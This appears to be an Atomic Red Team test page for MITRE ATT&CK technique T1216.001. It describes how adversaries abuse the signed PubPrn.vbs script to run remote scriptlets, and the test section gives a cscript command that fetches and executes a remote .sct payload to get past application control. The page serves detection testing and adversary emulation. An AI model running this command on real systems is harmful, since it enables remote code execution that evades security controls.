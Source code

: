 # T1216.001 - PubPrn
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1216/001)
<blockquote>Adversaries may use PubPrn to proxy execution of malicious remote files. PubPrn.vbs is a [Visual Basic](https://attack.mitre.org/techniques/T1059/005) script that publishes a printer to Active Directory Domain Services. The script may be signed by Microsoft and is commonly executed through the [Windows Command Shell](https://attack.mitre.org/techniques/T1059/003) via <code>Cscript.exe</code>. For example, the following code publishes a printer within the specified domain: <code>cscript pubprn Printer1 LDAP://CN=Container1,DC=Domain1,DC=Com</code>.(Citation: pubprn)

Adversaries may abuse PubPrn to execute malicious payloads hosted on remote sites.(Citation: Enigma0x3 PubPrn Bypass) To do so, adversaries may set the second <code>script:</code> parameter to reference a scriptlet file (.sct) hosted on a remote site. An example command is <code>pubprn.vbs 127.0.0.1 script:https://mydomain.com/folder/file.sct</code>. This behavior may bypass signature validation restrictions and application control solutions that do not account for abuse of this script.

In later versions of Windows (10+), <code>PubPrn.vbs</code> has been updated to prevent proxying execution from a remote site. This is done by limiting the protocol specified in the second parameter to <code>LDAP://</code>, vice the <code>script:</code> moniker which could be used to reference remote code via HTTP(S).</blockquote>

## Atomic Tests

- [Atomic Test #1 - PubPrn.vbs Signed Script Bypass](#atomic-test-1---pubprnvbs-signed-script-bypass)


<br/>

## Atomic Test #1 - PubPrn.vbs Signed Script Bypass
Executes the signed PubPrn.vbs script with options to download and execute an arbitrary payload.

**Supported Platforms:** Windows


**auto_generated_guid:** 9dd29a1f-1e16-4862-be83-913b10a88f6c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_payload | A remote payload to execute using PubPrn.vbs. | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216.001/src/T1216.001.sct|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs localhost "script:#{remote_payload}"
```






<br/>
